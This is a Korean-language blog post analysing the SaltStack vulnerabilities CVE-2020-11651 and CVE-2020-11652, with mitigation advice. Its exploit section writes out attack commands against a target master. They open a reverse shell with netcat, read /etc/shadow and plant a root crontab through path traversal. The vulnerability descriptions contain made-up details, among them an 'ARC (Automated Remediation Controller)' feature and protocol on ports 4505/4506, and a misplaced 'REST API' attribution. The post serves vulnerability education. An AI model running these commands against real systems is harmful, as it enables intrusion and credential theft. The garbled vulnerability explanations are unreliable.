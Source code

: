 ```yaml
---
title:  "CVE-2020-11651, CVE-2020-11652 Analysis "
excerpt: "CVE-2020-11651, CVE-2020-11652 분석과 활용법"

categories: cve
tags:
  - [cve, salt, 'salt stack']

typora-root-url: ../../
 
date: 2025-08-25
last_modified_at: 2025-08-25
---
```

# CVE-2020-11651 분석 및 Exploit 사용법

## 개요
- **취약점명:** CVE-2020-11651
- **대상:** SaltStack (Salt) 2015.8.x ~ 2019.2.3 등 특정 버전
- **취약 유형:** 인증 우회 취약점 (Authentication Bypass)
- **위험도:** 매우 높음 (CVSSv3 10.0)
- **설명:** SaltStack 마스터 서버의 REST API가 인증 없이 외부 요청을 받아 권한 검증 없이 임의 명령 실행이 가능해지는 취약점

## 취약점 상세
- 공격자가 네트워크에서 Salt Master의 **포트 4505 또는 4506**에 접속할 수 있으면 공격 가능
- 인증 절차가 우회되어 공격자가 `cmd.run` 등의 명령어를 실행할 수 있음
- 원격에서 쉘 획득 및 시스템 제어 가능


## Exploit 예제
[used exploit](https://github.com/jasperla/CVE-2020-11651-poc)
해당 익스플로잇을 사용하기 위해서 `salt` 설치가 필요하다.
```sh
# 가상환경에서 salt 설치
python3 -m venv ~/salt_env
source ~/salt_env/bin/activate
pip install salt

# 의존성 문제 발생 시 아래 목록 추가 설치
pip3 install pyzmq PyYAML pycrypto msgpack jinja2 psutil tornado
```

해당 익스플로잇 사용 방법 예시
```bash
# Default operation (without arguments)
root@kalimah:~/salt# python3 exploit.py --master $targetIP

# Executing arbitrary commands on the master
root@kalimah:~/salt# python3 exploit.py --master $targetIP --exec "nc 127.0.0.1 4444 -e /bin/sh"

# File read
root@kalimah:~/salt# python2 exploit.py --master $targetIP -r /etc/shadow

# Files can be uploaded using --upload-src and --upload-dest
root@kalimah:~/salt#  python2 exploit.py --upload-src evil.crontab --upload-dest ../../../../../../var/spool/cron/crontabs/root
```

## 대응 방안
- SaltStack 최신 버전으로 즉시 업그레이드 (2019.2.4 이상)
- Salt REST API 외부 노출 금지 및 방화벽 설정 강화
- 의심스러운 API 호출 모니터링 및 탐지 체계 구축


---


# CVE-2020-11652 분석 및 Exploit 사용법

## 개요
- **취약점명:** CVE-2020-11652
- **대상:** SaltStack (Salt) 2015.8.x ~ 2019.2.3 등 특정 버전에서 사용되는 ARC 포트 4505, 4506
- **취약 유형:** 권한 상승 및 파일 시스템 무단 접근 취약점
- **위험도:** 중~높음 (CVSSv3 7.5)
- **설명:**  
  공격자가 ARC 포트(4505, 4506)를 통해 Salt 마스터의 파일 시스템에 네트워크를 통해 접근 가능, 임의 파일 읽기/쓰기 및 시스템 제어 가능

## 취약점 상세
- ARC(Automated Remediation Controller) 기능에 존재하는 취약점으로, ARC 포트를 통해 공격자가 Salt 마스터의 파일 시스템을 무단으로 접근할 수 있음  
- CVE-2020-11651과 함께 발견되어 복합적으로 악용 가능성 높음  
- 공격 시 ARC 포트가 방화벽 등으로 보호되지 않으면 원격에서 심각한 피해 발생

## 공격 시나리오 및 활용
1. 대상 시스템의 포트 4505, 4506이 외부에 노출되어 있는지 스캔  
2. ARC 프로토콜을 이용해 파일 시스템 내 중요 파일 무단 읽기/쓰기 시도  
3. 민감 정보 탈취, 시스템 변경 및 루트 권한 획득 가능성  
4. 복합 공격 시 CVE-2020-11651 인증 우회와 결합해 전체 시스템 장악 가능

## 대응 방안
- 취약 버전 SaltStack 즉시 최신 버전으로 업그레이드 (2019.2.4 이상 권장)  
- ARC 포트(4505, 4506) 외부 노출 차단 및 방화벽 정책 강화  
- 네트워크 모니터링 강화 및 의심 트래픽 탐지 도구 활용



## Exploit-DB
[Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)